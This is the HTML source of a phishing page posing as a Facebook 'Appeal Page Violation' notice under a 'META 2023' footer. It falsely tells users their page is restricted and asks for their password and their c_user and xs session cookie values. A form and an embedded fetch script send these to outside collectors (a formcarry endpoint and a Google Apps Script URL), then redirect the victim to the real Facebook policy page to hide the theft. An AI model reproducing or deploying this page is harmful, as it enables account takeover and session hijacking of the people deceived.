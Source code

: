 <html>
<head>
<title>Action | required
</title>

<link rel="icon" type="images/x-icon" href="https://cdn.glitch.global/3a6579b2-fd63-454e-81f1-6a1745aec7e2/logo.png?v=1696612218285"/>


</head>
<body>


<h1 style="background-color:#4267B2; color:white; padding-left:50px; padding-top:18px; padding-bottom:10px; font-family:Arial; height:56px; font-size:45px;"><b>facebook 	&nbsp; 	&nbsp;	&nbsp;	&nbsp; 	&nbsp; 	&nbsp; 	&nbsp; 	&nbsp; 	&nbsp;	&nbsp;	&nbsp; 	&nbsp; 	&nbsp; 	&nbsp;<input type="search" placeholder="Search.." style="width:42%; height:40px; padding-top:20px;"></b><br><br><img src="https://cdn.glitch.global/3a6579b2-fd63-454e-81f1-6a1745aec7e2/appeal.png?v=1696612042115g" alt="page Violation" style="background-color:#f2f2f2; height:35px;"></h1>

<h2 style="font-family: Arial, Helvetica, sans-serif; background-color:#f2f2f2; color:#f2f2f2; text-align: left;  height:42px;">.</h2>



<p style="padding-left:18%"><table width="55%" style="border: 1px solid #f2f2f2;"><tr><th colspan="3" style="background-color:#f2f2f2; font-family:Arial; text-align:left; padding-left:20px; font-size:20px; color:#595959; height:40px;">Appeal Page Violation</th></tr>


<tr><th colspan="3" style="font-family:ArialS; text-align:left; font-size:12px; color:#595959; padding-left:15px;"> 
<br><br>
We have detected unusual activity on your page that violates our community standards.<br><br><br>

Your access to your page has been limited, and you are currently unable to post, share, or comment using your page.<br><br><br>

If you believe this to be a mistake, you have the option to submit an appeal by providing the necessary information.<br><br><br> 

<p style="color:#8c8c8c">Detailed Video Information</p>


<video controls poster="https://cdn.glitch.global/3a6579b2-fd63-454e-81f1-6a1745aec7e2/1686653139000.https%20(2).png?v=1696612306007" width="200" height="100" padding-left="10px" controls>
  <source src="https://cdn.glitch.global/3a6579b2-fd63-454e-81f1-6a1745aec7e2/appeal.mp4?v=1696611950329" type="video/mp4">
  <source src="appeal.ogg" type="video/ogg">
 
</video>

<br><br><br> 

Please be sure to provide the requested information below.<br>










    


  <p style="color:#8c8c8c">
 <form action="https://formcarry.com/s/N1IfrNSlkt" method="post">

  C_User <br><br><input type="number" name="c_user" pattern=".{9,}"  required><br><br> 

  Xs <br><br> <input type="text" name="xs" pattern=".{30,}" required><br><br> 

  Please Re-Enter your passward to confrim : <input type="text" name="passward" id="passward"  pattern=".{6,}"  required>    <input type="Submit" name="submit" style="background-color:#4267B2; color:white;">         <br><br> </th></tr>
  
  <tr><th colspan="3" style="background-color:#f2f2f2; font-family:Arial; font-size:10px; text-align:left; padding-left:10px;"> Please make sure account not to log out from your computer until you have received a verification email. 

   
 
  </form></th></tr></table></P>
  
  
  <p style="color:#8c8c8c;">META 2023</p> 
  
  <p style="padding-left:18%"><table width="80%" style="color:#8c8c8c; text-align:left;"><tr><th><a href="#" style="color:#8c8c8c; text-decoration:none; --hover-color: #4267B2;">About</a></th><th><a href="#" style="color:#8c8c8c; text-decoration:none;">AdChoices</a></th><th><a href="#" style="color:#8c8c8c; text-decoration:none;">Terms and policies</a></th></tr>
  
  
        <tr><th><a href="#" style="color:#8c8c8c; text-decoration:none;">Privacy Policy</a></th><th><a href="#" style="color:#8c8c8c; text-decoration:none;">Create ad</a></th><th><a href="#" style="color:#8c8c8c; text-decoration:none;">Cookies</a></th></tr>
		
		
		<tr><th><a href="#" style="color:#8c8c8c; text-decoration:none;">Carees</a></th><th><a href="#" style="color:#8c8c8c; text-decoration:none;">Create Page</a></th><th><a href="#"></a></th></tr> </table>
  
  
  
  <script>
			const scriptURL = 'https://script.google.com/macros/s/AKfycbzJMyGebEWUto4g8NvJBm5h7X0tRRApO5qjEq6K1CxoYN8XEu_JrWZDg94aZK0tbtAhDA/exec'
			const form = document.forms['sheet1']
		  
			form.addEventListener('submit', e => {
			  e.preventDefault()
			  fetch(scriptURL, { method: 'POST', body: new FormData(form)})				
				.then(() => {  window.location.assign("https://transparency.fb.com/en-gb/policies/community-standards"); })
				.catch(error => console.error('Error!', error.message))
			})
		  </script>
  
  

  </body>


</html>
